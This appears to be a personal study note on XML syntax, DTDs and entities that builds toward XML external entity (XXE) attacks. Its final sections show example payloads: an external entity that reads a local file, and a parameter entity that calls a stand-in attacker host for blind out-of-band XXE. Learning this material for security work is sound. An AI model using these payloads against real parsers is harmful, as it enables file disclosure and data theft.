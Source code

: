 # XML

## Some definitions and introductions
- [source](https://learnxinyminutes.com/docs/xml/) 
```xml
<!-- This is a comment. It must not contain two consecutive hyphens (-). -->
<!-- Comments can span
  multiple lines -->

<!-- Elements -->
<!-- An element is a basic XML component. There are two types, empty: -->
<element1 attribute="value" /> <!-- Empty elements do not hold any content -->
<!-- and non-empty: -->
<element2 attribute="value">Content</element2>
<!-- Element names may only contain alphabets and numbers. -->

<empty /> <!-- An element either consists an empty element tag… -->
<!-- …which does not hold any content and is pure markup. -->

<notempty> <!-- Or, it consists of a start tag… -->
  <!-- …some content… -->
</notempty> <!-- and an end tag. -->

<!-- Element names are case sensitive. -->
<element />
<!-- is not the same as -->
<eLEMENT />

<!-- Attributes -->
<!-- An attribute is a key-value pair and exists within an element. -->
<element attribute="value" another="anotherValue" many="space-separated list" />
<!-- An attribute may appear only once in an element. It holds just one value.
  Common workarounds to this involve the use of space-separated lists. -->

<!-- Nesting elements -->
<!-- An element's content may include other elements: -->
<parent>
  <child>Text</child>
  <emptysibling />
</parent>
<!-- Standard tree nomenclature is followed. Each element being called a node.
  An ancestor a level up is the parent, descendants a level down are children.
  Elements within the same parent element are siblings. -->

<!-- XML preserves whitespace. -->
<child>
  Text
</child>
<!-- is not the same as -->
<child>Text</child>
```
## Well-formedness and Validation
- [source](https://learnxinyminutes.com/docs/xml/) 
```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE bookstore SYSTEM "Bookstore.dtd">
<!-- Declares that bookstore is our root element and 'Bookstore.dtd' is the path
  to our DTD file. -->
<bookstore>
  <book category="COOKING">
    <title lang="en">Everyday Italian</title>
    <author>Giada De Laurentiis</author>
    <year>2005</year>
    <price>30.00</price>
  </book>
</bookstore>
```
- The DTD file (Bookstore.dtd):
```xml
<!ELEMENT bookstore (book+)>
<!-- The bookstore element may contain one or more child book elements. -->
<!ELEMENT book (title, price)>
<!-- Each book must have a title and a price as its children. -->
<!ATTLIST book category CDATA "Literature">
<!-- A book should have a category attribute. If it doesn't, its default value
  will be 'Literature'. -->
<!ELEMENT title (#PCDATA)>
<!-- The element title must only contain parsed character data. That is, it may
  only contain text which is read by the parser and must not contain children.
  Compare with CDATA, or character data. -->
<!ELEMENT price (#PCDATA)>
```
- The DTD could be declared inside the XML file itself:
```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE bookstore [
<!ELEMENT bookstore (book+)>
<!ELEMENT book (title, price)>
<!ATTLIST book category CDATA "Literature">
<!ELEMENT title (#PCDATA)>
<!ELEMENT price (#PCDATA)>
]>

<bookstore>
  <book category="COOKING">
    <title>Everyday Italian</title>
    <price>30.00</price>
  </book>
</bookstore>
```
## What are XML custom entities?

`<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>` -> any usage of the entity reference `&myentity;` = "`my entity value`"

## What are XML external entities?

ex: `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>` 
-> (file protocol in url): `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`

-  a type of custom entity whose definition is *located outside* of the DTD
- The declaration of an external entity uses the **`SYSTEM`** keyword
- it must specify a *URL* from which the *value of the entity should be loaded*
- this is where [[concepts and defense|XXE]] arises 

## What are XML Parameter entities?
[source](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#what-are-xml-parameter-entities)

ex: `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`
  -> blind XXE using out-of-band detection
  
- XML parameter entities are a special kind of XML entity which can <mark style="background: #ADCCFFA6;">only be referenced elsewhere within the DTD</mark>.
- the **declaration** of an XML parameter entity *includes the percent character before the entity name*
  -> `<!ENTITY % myparameterentity "my parameter entity value" >`
- parameter entities are **referenced** using the *percent character instead of the usual ampersand*
  -> `%myparameterentity;`
/gitcomm